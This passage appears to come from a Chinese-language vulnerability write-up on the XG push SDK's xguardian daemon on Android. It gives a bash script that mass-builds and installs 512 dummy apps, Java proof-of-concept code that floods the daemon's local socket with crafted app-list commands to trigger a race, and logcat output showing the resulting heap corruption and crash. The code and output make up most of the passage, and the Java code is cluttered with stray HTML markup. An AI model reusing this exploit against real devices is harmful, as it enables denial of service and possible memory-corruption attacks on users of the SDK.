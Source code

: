 

```
#!/bin/bash
# Generate 512 apks, Build and Install
CURDIR=$(pwd)
for i in $(seq 512)
do
    cd $CURDIR
    DIR=”HelloWorld”$i
    PACKAGE=”com.ms509.helloworld”$i
    UNSIGNED_APK=$DIR”-release-unsigned.apk”
    SIGNED_APK=$i”.apk”
    android create project -n $DIR -t 13 -p $DIR -k $PACKAGE -a helloworld
    cd $CURDIR”/”$DIR
    ant release
    cd $CURDIR”/”$DIR”/bin”
# sign apk
    signapk.sh $UNSIGNED_APK $SIGNED_APK
    adb install $SIGNED_APK
done
```

其次，破解加密算法可以直接调用程序使用的加解密库，而不必真的破解。最后的POC关键代码如下，注意，我们在快超过512时sleep了一下，使XG SDK的处理能力跟上，然后后面再传入多个xgappinfo，这样有更大的几率触发并发。

```
directSendContent("debug:1");<br style="text-align: left">directSendContent("ver:");<br style="text-align: left">Log.d("testXG", "[+] Adding "+Integer.toString(m_appNameList.size()) + "fake xg apps");<br style="text-align: left">int i = 0;<br style="text-align: left">for (String xgapp:m_appNameList) `{`<br style="text-align: left">    if ((i++) &gt; 530)<br style="text-align: left">        break;<br style="text-align: left">    String cmd = "xgapplist:" + xgapp + "," +<br style="text-align: left">            Integer.toString((int)(Math.random()*1000000)) + ";";<br style="text-align: left">    Log.d("testXG", "[+] " + Integer.toString(i) + " Sending command: " + cmd);<br style="text-align: left">    if (i == 510) `{`<br style="text-align: left">        try `{`<br style="text-align: left">            sleep(1000);<br style="text-align: left">        `}` catch (InterruptedException e)`{`<br style="text-align: left"><br style="text-align: left">        `}`<br style="text-align: left">    `}`<br style="text-align: left">    directSendContent(cmd);<br style="text-align: left">
```



```
Logcat:
I/xguardian(19448): scanAppStatus node:508, pkg:heenstudy.com.sniffclipboard, accid:917429, status:1
I/xguardian(19448): scanAppStatus node:509, pkg:com.estrongs.android.taskmanager, accid:230582, status:1
I/xguardian(19448): scanAppStatus node:510, pkg:com.ilegendsoft.mercury, accid:995063, status:1
I/xguardian(19448): scanAppStatus node:511, pkg:fq.router2, accid:619048, status:1
I/xguardian(19448): xg app list size total:512, xgAppsCacheCount:512, xgAppsCacheActivityStatusCount:512
I/xguardian(19448): countTimeout=0, wait_time=310000, nfds=1, xgAppsCacheCount=512
I/xguardian(19448): server accept client 2, 127.0.0.1
I/xguardian(19448): countTimeout=0, wait_time=310000, nfds=1, xgAppsCacheCount=512
I/xguardian(19448): server decrpty receive from client: 42 : xgapplist:easyre.sjl.gossip.easyre,512970;
I/xguardian(19448): server get unstall appinfo:easyre.sjl.gossip.easyre,512970;
E/xguardian(19448): error accessid:512970
I/xguardian(19448): found 0, pkgName:easyre.sjl.gossip.easyre,accid:512970
I/xguardian(19448): try to add to the unstall list
E/testXG  (10149): [+] response: -1
F/libc    (19448): invalid address or address of corrupt block 0x401120c8 passed to dlfree
F/libc    (19448): Fatal signal 11 (SIGSEGV) at 0xdeadbaad (code=1), thread 19448 (xg_watchdog)
I/DEBUG   (  242): *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
I/DEBUG   (  242): Build fingerprint: ‘google/hammerhead/hammerhead:4.4.4/KTU84P/1227136:user/release-keys’
I/DEBUG   (  242): Revision: ’11’
```
